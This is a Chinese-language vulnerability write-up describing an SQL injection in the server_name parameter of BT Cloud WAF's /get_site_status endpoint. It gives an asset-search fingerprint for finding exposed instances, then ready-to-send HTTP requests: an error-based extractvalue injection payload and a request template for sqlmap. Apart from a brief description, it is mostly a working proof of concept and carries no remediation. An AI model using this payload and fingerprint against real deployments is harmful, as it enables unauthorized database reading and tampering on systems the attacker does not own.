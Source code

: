 # 宝塔云WAF server_name存在SQL注入漏洞

# 一、漏洞简介
免费的私有云WAF防火墙 堡塔云WAF经过千万级用户认证、为您的业务保驾护航 采用反向代理的方式,网站流量先抵达堡塔云WAF 经过堡塔云WAF检测和过滤后，再转给原来提供服务的网站服务器。堡塔云WAF是一个开源的Web应用程序防火墙，它可以保护网站免受SQL注入，XSS，CSRF，SSRF，命令注入，代码注入，本地文件包含，远程文件包含等攻击 兼容ARM和国产系统。堡塔云WAF server_name 接口处存在SQL注入漏洞,恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。

# 二、影响版本
+ 堡塔云WAF

# 三、资产测绘
```plain
title=="404 - Website not exist!"
```

![1716743462186-060cdafd-f235-444f-add4-509093fc03bb.png](./img/F3T28ybLHGApE49W/1716743462186-060cdafd-f235-444f-add4-509093fc03bb-402365.png)

# 四、漏洞复现
```plain
GET /get_site_status?server_name='-extractvalue(1,concat(0x5c,123456789))-'1 HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1716743506890-41bf9b47-7da0-49f2-a79d-e2eccbe791ac.png](./img/F3T28ybLHGApE49W/1716743506890-41bf9b47-7da0-49f2-a79d-e2eccbe791ac-585749.png)

sqlmap:

```plain
GET /get_site_status?server_name=1 HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1716743771618-53fc5769-795f-4889-beb4-3138047c77d0.png](./img/F3T28ybLHGApE49W/1716743771618-53fc5769-795f-4889-beb4-3138047c77d0-630594.png)



> 更新: 2024-06-01 11:17:59  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ck7t8ensptmf97se>